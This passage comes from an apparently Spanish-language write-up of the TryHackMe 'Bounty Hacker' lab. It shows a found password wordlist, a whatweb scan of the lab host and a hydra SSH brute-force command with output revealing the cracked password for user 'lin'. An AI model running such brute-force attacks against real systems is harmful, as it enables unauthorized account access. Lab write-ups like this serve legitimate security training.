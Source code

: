 ```bash
  24   │ rEDdrAGOnSyNDiCat3
  25   │ r3ddr@g0N
  26   │ ReDSynd1ca7e
───────┴───────────────────────
❯ cat task.txt
───────┬────────────────────────────────────────────────────
       │ File: task.txt
───────┼────────────────────────────────────────────────────
   1   │ 1.) Protect Vicious.
   2   │ 2.) Plan for Red Eye pickup on the moon.
   3   │ 
   4   │ -lin
───────┴────────────────────────────────────────────────
```

Nos encontramos con un posible diccionario y unas tareas, así mismo, observamos un usuario: **lin***.  Ahora vamos a echarle un ojo al sitio web:

```bash
❯ whatweb http://10.10.200.126/
http://10.10.200.126/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.200.126]
```

![""](/assets/images/thm-bountyhacker/bountyhacker.png)

Básicamente el sitio web nos dice que debemos entrar a la máquina; por lo tanto, tenemos un potencial usuario y una lista de contraseñas, por lo que podríamos tratar de ingresar vía ssh:

```bash
❯ hydra -l lin -P locks.txt ssh://10.10.200.126
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-19 20:31:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.200.126:22/
[22][ssh] host: 10.10.200.126   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
```